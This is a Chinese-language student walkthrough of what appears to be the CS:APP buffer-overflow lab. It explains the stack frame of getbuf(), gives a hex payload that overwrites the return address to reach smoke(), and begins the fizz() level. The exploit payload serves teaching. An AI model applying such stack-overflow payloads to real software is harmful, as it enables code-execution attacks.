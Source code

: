 ​	只要满足其中......好像满足任何一个条件都不能过关。那是要做什么呢？题目中已经给出了。

​	本题要求使用getbuf函数缓冲区溢出的漏洞，进入下述函数。

```
void smoke()
{
	printf("Smoke!: You called smoke()\n");
	validate(0);
	exit(0);
}
```

​	注意到每次调用函数，都会push %ebp，用于后续恢复栈帧。push指令先将%esp减4，然后将src复制到%esp中。%esp一直指向栈顶元素。

​	使用gdb，反汇编getbuf函数，可以得到如下结果：

![getbuf](C:\Users\86139\Desktop\jiji\lab3\图片1.png)

​	可以看到，栈中开辟了0x32大小的空间用于存放字符串。假设进入getbuf()时，%esp为0，可以画出栈帧。

<img src="C:\Users\86139\Desktop\jiji\lab3\图片2.jpg" style="zoom:6.25%;" />

​	为了到达返回地址，要填充任意54个字符，然后填充smoke()的初始地址即可。这里没有选用首地址，但是进入了smoke()，区别不大。注意要以小端法格式填充。

![图片3](C:\Users\86139\Desktop\jiji\lab3\图片3.png)

答案：

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00
a2 8b 04 08
```

**level1**

​	该level仍然调用test()，然后通过缓冲区溢出进入fizz()

```
void fizz(int val)
{
	if (val == cookie) {
		printf("Fizz!: You called fizz(0x%x)\n", val);
		validate(1);
	} else
		printf("Misfire: You called fizz(0x%x)\n", val);
		exit(0);
}
```

​	可以看到，fizz具有一个参数val，且参数值等于cookie时才可以通关。因此，要想办法修改参数值或修改cookie值。先查看fizz的反汇编代码。

![图片4](C:\Users\86139\Desktop\jiji\lab3\图片4.png)
